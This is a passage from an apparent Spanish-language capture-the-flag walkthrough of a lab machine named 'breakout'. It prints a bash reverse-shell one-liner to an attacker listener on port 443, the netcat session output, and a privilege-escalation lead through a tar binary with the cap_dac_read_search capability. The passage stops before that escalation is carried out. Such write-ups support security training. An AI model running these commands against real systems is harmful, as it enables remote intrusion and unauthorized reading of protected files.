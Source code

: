 ![""](/assets/images/vh-empirebreakout/empire-web9.png)

Ahora, vamos a tratar de entablarnos una reverse shell a una máquina de atacante. Por lo tanto, nos ponemos en escucha por el puerto 443:

```bash
[cyber@breakout ~] bash -i >& /dev/tcp/10.0.0.25/443 0>&1
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.28] 56686
bash: cannot set terminal process group (999): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$
```

Como siempre, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ya dentro de la máquina somos el usuario **cyber** y podemos visualizar la flag (user.txt). Si checamos nuestro directorio personal, vemos el binario `tar`, el cual podría tratarse de una pista.

```bash
cyber@breakout:~$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19 15:40 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19 14:31 user.txt
cyber@breakout:~$
```

Si checamos las capabilities del binario, vemos que tiene `cap_dac_read_search=ep`:

```bash
cyber@breakout:~$ getcap tar
tar cap_dac_read_search=ep
cyber@breakout:~$
```

Esto nos permite tener permisos de lectura a cualquier archivo; lo que nos permitiría crear un archivo comprimido de cualquier archivo del sistema para posteriormente descomprimir y tener los permisos del usuario **cyber**. Por lo tanto, podriamos tratar de pensar que existe un archivo que tenga información que nos ayude a convertirnos en **root**. Si buscamos un poco, encontramos un recurso interesante en `/var/backups`:
